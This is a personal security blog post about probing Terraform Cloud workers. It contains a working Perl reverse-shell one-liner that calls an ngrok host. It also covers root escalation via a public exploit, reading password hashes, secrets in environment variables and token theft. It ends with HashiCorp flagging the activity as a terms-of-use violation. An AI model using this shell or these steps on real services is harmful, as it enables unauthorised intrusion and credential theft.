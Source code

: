 # Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way. 

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my personal projects.

Using a remote TFE workspaces comes with many cool features but to me best benefits are state management and CI/CD. Simply connect your repo to TFE and commit to main and you terraform code executes. 

This got me thinking, I am running code on another persons machine....

## The starting mischief 

Okay so we can run code on another machine but where does that get us? 

I started thinking a way I can get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk 
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF. 

The easiest and most simple way is to use an external provider and run bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you worried about opsec please do not do this. 

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. This at this time PolKit had only been out for few day (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on github and we have root.

With root I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistance? 

My main question was, can I access other users runs? 

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am  running on a t3a.small. So ephemeral EC2 hosts...interesting. 

I started to wonder, Are hosts being reused or are they delete after a single run? 

To test this I adding a cron on an instance to callback and waited but, it never did. 

I gave up on this idea and started to look elsewhere.
## Finding the Terraform user hash

Using the root access I check /etc/shadowd and found the password hash for the Terraform users. 

Then I check several instances it was clear the all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user hash is not useful in this case. I still reported it to HashiCorp. 

## Environment Variables 

This is not really an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you are able to run TF code. 

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried using accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught 

To be clear I was doing all this testing in my own environment in an isolated account with good intentions. That being said it likely against the terms and services. I do not recommend, in any case doing unauthorize testing against a service. 

I called it a night and when I woke up, I had a polite email from Hashicorp.

```bash
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out, and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc. and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already take to mitigate those attack paths. 

Seriously shout-out to Hashicorp for being so cool. 

At the end of the day no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area but that will have to wait for an authorized time. ;)